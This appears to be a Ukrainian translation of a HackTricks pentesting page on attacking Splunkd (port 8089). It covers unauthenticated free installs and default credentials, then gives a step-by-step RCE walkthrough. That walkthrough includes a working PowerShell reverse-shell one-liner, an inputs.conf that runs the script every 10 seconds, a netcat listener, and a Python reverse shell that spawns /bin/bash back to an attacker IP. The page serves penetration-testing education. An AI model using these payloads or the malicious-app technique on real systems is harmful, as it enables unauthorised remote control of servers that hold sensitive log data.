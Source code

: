 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Основна інформація**

Splunk є **інструментом аналітики журналів**, який відіграє важливу роль у **збиранні, аналізі та візуалізації даних**. Хоча його первісною метою не було служити як **SIEM (Управління інформацією та подіями безпеки)**, він здобув популярність у сфері **моніторингу безпеки** та **бізнес-аналітики**.

Розгортання Splunk часто використовуються для зберігання **чутливих даних** і можуть слугувати **цінним джерелом інформації** для потенційних атакуючих, якщо їм вдасться скомпрометувати систему. **Порт за замовчуванням:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
Сервер **Splunk веб** за замовчуванням працює на порту 8000.
{% endhint %}

## Перерахування

### Безкоштовна версія

Тестова версія Splunk Enterprise перетворюється на **безкоштовну версію після 60 днів**, яка **не вимагає аутентифікації**. Не рідкість, що системні адміністратори встановлюють тестову версію Splunk, щоб протестувати її, яка **потім забувається**. Це автоматично перетворюється на безкоштовну версію, яка не має жодної форми аутентифікації, що створює дірку в безпеці середовища. Деякі організації можуть вибрати безкоштовну версію через обмеження бюджету, не повністю усвідомлюючи наслідки відсутності управління користувачами/ролями.

### Стандартні облікові дані

У старіших версіях Splunk стандартні облікові дані - **`admin:changeme`**, які зручно відображаються на сторінці входу.\
Однак **остання версія Splunk** встановлює **облікові дані** **під час процесу установки**. Якщо стандартні облікові дані не працюють, варто перевірити наявність поширених слабких паролів, таких як `admin`, `Welcome`, `Welcome1`, `Password123` тощо.

### Отримати інформацію

Після входу в Splunk ми можемо **переглядати дані,** запускати **звіти**, створювати **панелі моніторингу**, **встановлювати програми** з бібліотеки Splunkbase та встановлювати власні програми.\
Ви також можете запускати код: Splunk має кілька способів **запуску коду**, таких як серверні Django програми, REST кінцеві точки, сценарії введення та сценарії сповіщень. Загальним методом отримання віддаленого виконання коду на сервері Splunk є використання сценарію введення.

Більше того, оскільки Splunk може бути встановлений на Windows або Linux хостах, сценарії введення можуть бути створені для запуску Bash, PowerShell або Batch сценаріїв.

### Shodan

* `Splunk build`

## RCE

### Створити власну програму

Власна програма може виконувати **Python, Batch, Bash або PowerShell сценарії**.\
Зверніть увагу, що **Splunk постачається з встановленим Python**, тому навіть у **Windows** системах ви зможете запускати код на Python.

Ви можете використовувати [**цей**](https://github.com/0xjpuff/reverse\_shell\_splunk) пакет Splunk, щоб допомогти нам. Директорія **`bin`** в цьому репозиторії має приклади для [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) та [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Давайте пройдемо через це крок за кроком.

Щоб досягти цього, спочатку потрібно створити власну програму Splunk, використовуючи наступну структуру директорій:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
Директорія **`bin`** міститиме будь-які **скрипти, які ми плануємо виконати** (в даному випадку, **PowerShell** реверсний шелл), а директорія за замовчуванням міститиме наш файл `inputs.conf`. Наш реверсний шелл буде **PowerShell однорядковим:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
Файл [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) вказує Splunk **який скрипт виконувати** та будь-які інші умови. Тут ми встановлюємо додаток як активний і вказуємо Splunk виконувати скрипт кожні 10 секунд. Інтервал завжди в секундах, і вхід (скрипт) буде виконуватись лише якщо ця настройка присутня.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
Ми потребуємо `.bat` файл, який буде виконуватись, коли додаток буде розгорнуто, і виконувати однолінійний скрипт PowerShell.

Наступний крок - вибрати `Install app from file` і завантажити додаток.

<figure><img src="../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Перед завантаженням шкідливого користувацького додатку давайте запустимо прослуховувач, використовуючи Netcat або [socat](https://linux.die.net/man/1/socat).
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
На сторінці `Upload app` натисніть на browse, виберіть tarball, який ми створили раніше, і натисніть `Upload`. Як **тільки ми завантажимо додаток**, **отримується зворотний шелл**, оскільки статус додатка автоматично буде змінено на `Enabled`.

#### Linux

Якщо б ми мали справу з **Linux хостом**, нам потрібно було б **відредагувати Python скрипт `rev.py`** перед створенням tarball і завантаженням користувацького шкідливого додатку. Інша частина процесу залишалася б такою ж, і ми отримали б зворотне з'єднання шеллу на нашому прослуховувачі Netcat і вирушили б у подорож.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

На наступній сторінці ви можете знайти пояснення, як цей сервіс може бути зловжито для ескалації привілеїв та отримання стійкості:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
